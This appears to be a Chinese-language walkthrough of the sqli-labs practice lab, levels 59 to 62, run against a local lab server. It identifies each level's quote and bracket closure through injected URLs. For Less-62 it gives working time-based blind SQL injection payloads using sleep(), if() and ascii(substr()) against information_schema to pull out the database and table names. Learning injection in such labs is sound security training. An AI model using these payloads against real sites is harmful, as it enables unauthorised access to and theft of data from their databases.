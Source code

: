 真可怜又是5次。

`http://192.168.2.222/sqli-labs-master/Less-59/?id=1'`判断为数字型注入。

![U9Pyge.png](https://s1.ax1x.com/2020/07/05/U9Pyge.png)

跟前面一样，报错注入，正好过关。

## ***Less-60:Challenge-7***

刚开始输入单引号页面正常回显。重置一下.....要不然后边步数不够了。

`http://192.168.2.222/sqli-labs-master/Less-60/?id=1"`得到闭合方式为双引号加括号`")`

![U9iFbR.png](https://s1.ax1x.com/2020/07/05/U9iFbR.png)

其余步骤跟58关一样。

## ***Less-61:Challenge-8***

`http://192.168.2.222/sqli-labs-master/Less-61/index.php?id=1'`单引号报错得到，闭合方式为单引号括号括号`'))`

![U9i3VI.png](https://s1.ax1x.com/2020/07/05/U9i3VI.png)

其余步骤跟58关一样。

## ***Less-62:Challenge-9***

这就比较牛逼了，130次。

![U9i2zF.png](https://s1.ax1x.com/2020/07/05/U9i2zF.png)

尝试`http://192.168.2.222/sqli-labs-master/Less-62/?id=1' --+`页面返回异常，说明包裹参数的有单引号。

`http://192.168.2.222/sqli-labs-master/Less-62/?id=1' --+`页面还不正常，说明不只有单引号。

加个括号，`http://192.168.2.222/sqli-labs-master/Less-62/?id=1') --+`页面返回正常，说明闭合方式为单引号括号`')`

这关关闭了报错。同样union联合查询也不显示。

尝试`http://192.168.2.222/sqli-labs-master/Less-62/?id=1') and sleep(5)--+`，页面延迟，，说明可以进行时间注入。

`http://192.168.2.222/sqli-labs-master/Less-62/?id=1') and if(length(database())>1,1,sleep(5))--+`用二分法，


`http://192.168.2.222/sqli-labs-master/Less-62/?id=1') and if(length((select table_name from information_schema.tables where table_schema=database()))>1,1,sleep(10))--+`

`http://192.168.2.222/sqli-labs-master/Less-62/?id=1') and if(ascii(substr((select table_name from information_schema.tables where table_schema=database()),1,1))>1,1,sleep(10))--+`

之后步骤只需将if()函数的第一个参数改一改就可以了。

## ***Less-63:Challenge-10***
